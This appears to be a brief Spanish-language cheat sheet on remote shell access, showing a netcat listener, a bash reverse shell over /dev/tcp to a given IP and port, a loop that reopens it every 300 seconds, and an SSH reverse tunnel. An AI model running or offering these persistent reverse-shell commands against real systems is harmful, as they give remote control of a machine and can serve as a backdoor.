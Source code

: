 En una máquina (cliente) abrimos un puerto con netcat:
nc -kl 3000


En la máquina (servidor) donde van a ser ejecutados los comandos
exec bash >& /dev/tcp/10.26.236.136/7337 0>&1
while sleep 300; do exec bash >& /dev/tcp/ip.address/port.number 0>&1; done


Cuando el cliente escriba comandos en su netcat, le contestará el bash del servidor


# Con tuneles ssh
En el servidor al que queremos acceder (abrimos en el cliente el puerto 2222):
ssh -f -R 2222:localhost:22 10.0.0.100 -N
En el cliente (el puerto 2222 está conectado al 22 del server)
ssh localhost -p 2222

